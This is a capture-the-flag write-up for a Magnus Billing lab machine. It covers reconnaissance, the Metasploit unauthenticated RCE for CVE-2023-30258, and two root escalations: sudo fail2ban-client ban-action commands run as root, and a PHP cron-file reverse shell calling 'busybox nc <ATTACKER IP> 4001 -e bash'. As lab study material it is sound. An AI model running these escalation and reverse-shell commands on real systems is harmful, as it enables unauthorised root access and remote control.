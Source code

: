 
1. Basic nmap scan for discovery
<img width="638" height="297" alt="image" src="https://github.com/user-attachments/assets/bf8f16f6-8f9a-4a5a-8276-f5bc48831fd8" />

2. Fuzzing directories with ffuf
<img width="853" height="409" alt="image" src="https://github.com/user-attachments/assets/17887601-050a-493d-9c07-face8b82ad1d" />

<img width="853" height="560" alt="image" src="https://github.com/user-attachments/assets/0791fea6-9092-41f3-ac6c-9bec985e9480" />

3. Thought there was something in the login page, but appeared to be same error no matter the username:
<img width="462" height="395" alt="image" src="https://github.com/user-attachments/assets/a3eb64ff-3ff2-43b0-9298-1b4351fe907d" />

4. Tried burp suite, but didn't get very far here:


POST /mbilling/index.php/authentication/login HTTP/1.1
Host: 10.10.241.125
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://10.10.241.125
Connection: keep-alive
Referer: http://10.10.241.125/mbilling/
Cookie: PHPSESSID=qslgufb4llhp4k0572i69flq07
Priority: u=0

user=admin&password=A94A8FE5CCB19BA61C4C0873D391E987982FBBD3&key=

5. Fumbled around fuzzing for a while with not much luck. Eventually ran another nmap scan and discovered a missed port:

<img width="573" height="390" alt="image" src="https://github.com/user-attachments/assets/f7117805-bb80-4eac-a97c-922c6adde787" />

Magnus Billing is opensource billing software that uses Asterisk. 
https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=asterisk
There are exploits for both Magnus and Asterisk, but there is a remote command execution for magnus through Metasploit that might work:
https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/

Metasploit (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258) worked and got user flag. I’m the ‘asterisk’ user. 
Other users: magnus, ssm-user, debian
no SUIDs
no writeable locations of use
no cron tab jobs
no password/token files
no file shares
no SSH keys
sudo -l : fail2ban-client

Tried going down a route with fail2ban other than getting a reverse shell as the same asterisk user. 

Googled fail2ban more and found this one that worked to copy the root.txt file to the /tmp folder:
https://vulners.com/packetstorm/PACKETSTORM:189989
    sudo /usr/bin/fail2ban-client restart
    sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'" 
    sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

From what I understand, since user can run fail2ban-client with sudo, use it’s commands to execute your own command. In this case, you’re setting an action related to banning an ip and when that is executed, it will run the /bin/bash command to copy the file as root to a location the current user can read.

I still looked up some other write-ups to see if there were alternate ways of doing this and found:
https://domoon.medium.com/billing-thm-writeup-de780e9f8017
used ‘pspy64’ to see running processes and found a cron job running as root every minute. Had access to delete and recreate the file to get root
Cron runs this:
  sh -c php /var/www/html/mbilling/cron.php ..
viewed this: /var/www/html/mbilling/cron.php
cannot write to the file but own directory
give yourself permission to write to directory: 
  chmod +w /var/www/html/mbilling
Can’t write to cron.php, but can delete the file and create a new one
Wrote it with a PHP rev shell
  <?php
  exec("busybox nc <ATTACKER IP> 4001 -e bash");
  ?>
start netcat listener, Cron runs, user gets root


